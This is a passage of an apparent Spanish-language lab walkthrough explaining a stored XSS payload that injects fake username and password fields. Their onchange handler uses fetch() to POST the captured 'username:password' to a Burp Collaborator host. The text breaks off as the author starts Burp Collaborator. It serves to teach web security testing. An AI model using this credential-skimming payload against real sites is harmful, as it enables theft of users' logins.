 En la primera linea crea un campo de entrada llamado **username**, y con el identificador único también llamado **username**, y lo que el usuario ingrese en este campo de entrada se guardará dentro de **name**.

En la segunda linea hace otro campo de entrada de tipo **password** que esto hace que los datos ingresados sean cubiertos con asteriscos, y este campo de entrada se llama password también.

Después dentro de el input de password usa **onchange**, que esto se encarga de que cuando haya un cambio en este caso en la entrada de datos de password, lo que hará **onchange** es encargarse de ejecutar algo cada vez que haya un cambio en esa sección indicada, y eso que va a ejecutar es el código que le sigue, y este código es el siguiente:

`if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN'`

Esto va a verificar si en el valor de contraseña hay datos, como seguimos dentro del input de **password** entonces podemos usar **this.value**, para acceder al valor que el usuario ha proporcionado en la entrada de datos de password.

Y en caso de que si haya datos dentro de **password** entonces se realizará una petición por **HTTP** usando la función **fetch()**, y la petición se envia hacía la URL controlada por el atacante, y esta petición se hace por el metodo **POST**, y el modo **no-cors** como recordamos es para desactivar las reglas de seguridad, y por último muestra el valor del usuario y la contraseña en el body de la respuesta de la petición, estas credenciales estan siendo llamadas para que sean visibles en el body, primero se usa **username.value** que como recordamos este es el identificador único del campo de entrada de datos del nombre de usuario. así que se estaría mostrando el nombre de usuario, después concatenamos dos puntos **:** esto para separar el usuario de la contraseña, y finalmente mostramos la contraseña que como recordamos seguimos dentro del input de **password** por lo que usamos **this.value** para mostrar el valor actual del campo donde el usuario ingreso datos en el campo de entrada de datos de password.

`});">`

Y por último cerramos la llave de la configuración de la petición, también cerramos el parentesis de la función fetch, usamos punto y coma para decir que hemos terminado eso, y por ultimo usamos las comillas dobles y el signo de mayor para cerrar el input de password.

<br>

Así que en resumen con esto crearemos 2 campos de entrada de datos, uno de usuario y otro de contraseña y al momento de que un usuario ingrese datos dentro de esto, entonces se enviará esta información hacia nuestro servidor tercero para poder leer las consultas con sus credenciales.

Así que primero iniciaremos el **BurpCollaborator** y copiaremos el host tercero por el cual recibiremos la respuesta de la petición que haremos en el XSS:
